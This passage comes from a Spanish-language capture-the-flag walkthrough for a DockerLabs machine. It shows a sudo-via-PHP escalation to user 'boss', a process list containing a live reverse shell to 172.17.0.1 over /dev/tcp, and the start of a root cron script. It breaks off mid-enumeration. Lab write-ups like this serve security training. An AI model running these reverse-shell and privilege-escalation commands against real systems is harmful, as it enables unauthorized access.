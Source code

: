 ```bash
www-data@dockerlabs:/var/www/cinema.dl/andrewgarfield$ sudo -u boss php -r "system('/bin/bash');"
boss@dockerlabs:/var/www/cinema.dl/andrewgarfield$ 
```

YA ESTAMOS COMO BOSS.

Vemos un user.txt:
```bash
93a85c1e99d62afe15c179d4fd005f40
```

No parece servir de nada.

Vamos a ver los procesos con `ps -ef`:
```bash
www-data@dockerlabs:/var/www/cinema.dl/andrewgarfield$ ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 11:39 ?        00:00:00 /bin/sh -c service apache2 start && service cron start && while true; do /var/spool/cron/crontabs/root.sh; sleep 60; done
root          24       1  0 11:39 ?        00:00:00 /usr/sbin/apache2 -k start
root          41       1  0 11:39 ?        00:00:00 /usr/sbin/cron -P
www-data      82      24  0 11:44 ?        00:00:12 /usr/sbin/apache2 -k start
www-data     138      24  0 11:48 ?        00:00:06 /usr/sbin/apache2 -k start
www-data     139      24  0 11:48 ?        00:00:06 /usr/sbin/apache2 -k start
www-data     158      24  0 11:48 ?        00:00:05 /usr/sbin/apache2 -k start
www-data     342      24  0 12:14 ?        00:00:02 /usr/sbin/apache2 -k start
www-data     347      24  0 12:14 ?        00:00:01 /usr/sbin/apache2 -k start
www-data     351      24  0 12:14 ?        00:00:01 /usr/sbin/apache2 -k start
www-data     353      24  0 12:14 ?        00:00:01 /usr/sbin/apache2 -k start
www-data     354      24  0 12:14 ?        00:00:01 /usr/sbin/apache2 -k start
www-data     360      24  0 12:14 ?        00:00:01 /usr/sbin/apache2 -k start
www-data    1824     354  0 15:24 ?        00:00:00 sh -c -- /bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'
www-data    1825    1824  0 15:24 ?        00:00:00 /bin/bash -c bash -i > /dev/tcp/172.17.0.1/443 0>&1
www-data    1826    1825  0 15:24 ?        00:00:00 bash -i
www-data    1828    1826  0 15:24 ?        00:00:00 script /dev/null -c bash
www-data    1829    1828  0 15:24 pts/0    00:00:00 sh -c bash
www-data    1830    1829  0 15:24 pts/0    00:00:00 bash
root        1856       1  0 15:26 ?        00:00:00 sleep 60
www-data    1857    1830  0 15:27 pts/0    00:00:00 ps -ef
```

Vemos que hace :
```bash
boss@dockerlabs:/var/spool/cron$ cat /var/spool/cron/crontabs/root.sh          
#!/bin/bash

# DO NOT EDIT THIS FILE - edit the master and reinstall.
# (/tmp/crontab.JicO9c/crontab installed on Thu Jan 16 11:58:58 2025)
# (Cron version -- $Id: crontab.c,v 2.13 1994/01/17 03:20:37 vixie Exp $)
# Edit this file to introduce tasks to be run by cron.
# 
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
# 
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').
# 
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
```